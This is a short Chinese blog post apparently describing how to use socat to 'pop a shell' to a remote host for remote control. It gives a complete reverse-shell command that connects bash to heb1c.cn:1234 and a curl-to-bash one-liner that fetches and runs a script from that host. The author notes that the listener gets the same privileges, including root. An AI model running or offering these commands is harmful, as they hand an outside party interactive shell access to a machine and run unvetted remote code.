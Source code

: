 ```yaml
---
layout: post
title: '利用socat实现远程终端控制'
date: 2019-3-18
author: hebicheng
cover: ''
tags: linux
---
```


> 通过使用socat, 给远端弹一个shell, 在远端实现远程控制

# 使用方式

`服务端`

```sh
    socat file:`tty`,raw,echo=0 tcp-listen:1234
```
在服务端运行这个命令，开启socat-server，监听1234端口

`客户端`

```sh
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:heb1c.cn:1234
```
与服务端对应，配置相应的host与port即可将当前shell远程给服务端。  
ps: 服务端获取到的shell和本地完全一致，包括root状态。

可以将命令放到web服务，通过自己配置的链接使用服务，如
```sh
    curl -L heb1c.cn/socat | /bin/bash
```
通过以上命令等同于客户端的命令


> 原创作品，转载请注明来源 [https://hebicheng.github.io](https://hebicheng.github.io)  
